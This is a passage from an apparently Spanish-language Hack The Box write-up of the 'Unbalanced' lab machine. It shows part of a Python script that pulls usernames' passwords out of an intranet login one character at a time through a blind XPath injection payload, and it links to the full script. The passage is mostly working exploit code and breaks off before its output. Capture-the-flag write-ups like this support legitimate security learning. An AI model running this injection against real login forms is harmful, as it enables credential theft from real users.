 ```py
                password = "' or substring(Username,1,%d)='%s' and substring(Password,%d,1)='%s' or '" % (length_name, name, col, letter_array)
                p1.status("%s" % (password))

                data_post = {
                    "Username" : username,
                    "Password" : password
                }

                req = requests.post(intranet_url, data=data_post, proxies=proxy, timeout=10)
                
                try:
                    juicy = re.findall(r'<div class="w3-row-padding w3-grayscale"><div class="w3-col m4 w3-margin-bottom"><div class="w3-light-grey"><p class=\'w3-opacity\'>(.*)', req.text)
                    #Cuando el payload se ejecuta y se crea esta etiqueta sabemos que nos mostro algo del XML, tomamos la letra en que sucedio y la guardamos en una variable, para asi ir armando la password
                    if juicy:
                        letter_found += letter_array
                        p2.status("%s = %s" % (name, letter_found))
                        break

                except:
                    p2.failure("The ju1cy failed :(")

        p2.success("%s = %s" % (name, letter_found))
        letter_found = ""

    p1.success("w3 4r3 d0n3 (:")

except requests.exceptions.ReadTimeout:
    p2.failure("t1m3:(0ut")
```

* [Acá queda el script por si algo :P](https://github.com/lanzt/blog/tree/main/assets/scripts/HTB/unbalanced/vulnpage.py)

Obtenemos este output:
